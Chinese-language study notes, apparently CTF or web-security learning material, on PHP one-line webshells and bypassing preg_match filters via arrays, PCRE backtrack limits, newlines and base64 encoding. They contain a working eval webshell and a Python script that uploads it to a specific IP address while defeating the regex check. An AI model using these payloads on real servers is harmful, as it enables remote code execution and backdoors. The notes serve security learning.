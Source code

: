 ![image](https://github.com/user-attachments/assets/414692be-6515-406a-bcf1-a969154295d4)


popen()
打开进程文件指针


一句话木马
⼀句话⽊⻢是⼀种简短的恶意代码，通常⽤于在⽬标服务器上创建⼀个后⻔，以便攻击者远程控制该 服务器或执⾏其他恶意操作。它主要出现在Web安全领域，特别是涉及PHP、ASP、JSP等动态语⾔ 的Web应⽤程序中。
```
php 的⼀句话⽊⻢：<?php @eval($_POST['a']); ?>
```

preg_match绕过总结
1、数组绕过
preg_match只能处理字符串，当传入的subject是数组时会返回false
2、PCRE回溯次数限制
pcre.backtrack_limit给pcre设定了一个回溯次数上限，默认为1000000，如果回溯次数超过这个数字，preg_match会返回false
[PHP利用PCRE回溯次数限制绕过某些安全限制 | 离别歌](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)
```
import requests
from io import BytesIO

files = {
  'file': BytesIO(b'aaa<?php eval($_POST[txt]);//' + b'a' * 1000000)
}

res = requests.post('http://51.158.75.42:8088/index.php', files=files, allow_redirects=False)
print(res.headers)
```

3、换行符
特殊字符（点，句号)在正则表达式中用来表示除了‘新行’之外的所有字符。所以模式 ∧∧ 5$ 与任何两个字符的、以数字5结尾和以其他非‘新行’字符开头的字符串匹配。模式 ∧∧ 可以匹配任何字符串，换行符（\n, \r）除外
![image](https://github.com/user-attachments/assets/426de3d6-3902-41c6-b213-3148275619b9)

4、Base64、URL编码绕过
Base64 编码是⼀种基于64个可打印字符来表⽰⼆进制数据的编码⽅式。它常⽤于在需要以⽂本形 式传输或存储⼆进制数据的场景中，⽐如电⼦邮件、URL参数、⽹络传输等。
Base64使⽤以下64个字符作为编码表：
字⺟： A-Z 、 a-z  （共52个字符）
数字： 0-9 （共10个字符） 
两个符号： + 和 / （共2个字符） 
填充符： = （⽤于填充不⾜3字节的数据）
3个字符（24位）才够转换为4个6位的分组
![image](https://github.com/user-attachments/assets/206034da-70e3-4d11-bdc1-50f49e9fcfe0)


![image](https://github.com/user-attachments/assets/91c859e1-857d-4fd2-9dca-38c961a3b8d1)

![image](https://github.com/user-attachments/assets/f65fe625-2a92-400e-b6d1-4d152ce611da)

根据base64解码规则和php中base64解码宽松性，= 在解码过程开始前会被移除，所以不会影响解码结果，但是+号作为码表的一部分移除会导致解码不正确，注意分别。
可以用get：/?wrappers=;base64,编码
